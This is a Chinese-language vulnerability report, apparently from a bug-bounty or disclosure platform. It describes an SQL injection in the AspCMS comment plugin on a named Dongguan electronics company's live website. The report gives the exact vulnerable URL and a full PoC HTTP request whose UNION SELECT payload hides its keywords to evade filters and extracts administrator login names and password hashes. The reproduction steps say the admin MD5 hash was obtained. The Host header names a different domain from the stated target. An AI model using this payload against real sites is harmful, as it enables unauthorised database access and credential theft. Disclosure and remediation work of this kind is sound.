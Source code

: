 
---
漏洞标题
 东莞市振鑫电子有限公司-评论-AspCMS-id参数-存在sql注入

厂商名称
东莞市振鑫电子有限公司

厂商域名
  
cenxn.com

漏洞描述
AspCMS commentList.asp 存在SQL注入漏洞，攻击者通过漏洞可以获取管理员md5的密码



漏洞url/功能点
http://www.cenxn.com/plug/comment/commentList.asp?id=1

·漏洞PoC请求包
GET /plug/comment/commentList.asp?id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user HTTP/1.1
Host: www.1166a.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Dnt: 1
Connection: close




复现步骤

1、ip域名归属证明

![[屏幕截图 2024-11-06 191013.png]]
2、访问漏洞页面
![[屏幕截图 2024-11-06 191237.png]]
3、添加pyload
id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user
获得admin密码的md5值

![[屏幕截图 2024-11-06 191329.png]]

修复建议

1.在网页代码中需要对用户输入的数据进行严格过滤。 

2.部署Web应用防火墙，对数据库操作进行监控 

3.升级至最新版本


所属地区：广东省东莞市
所属行业：  零售业
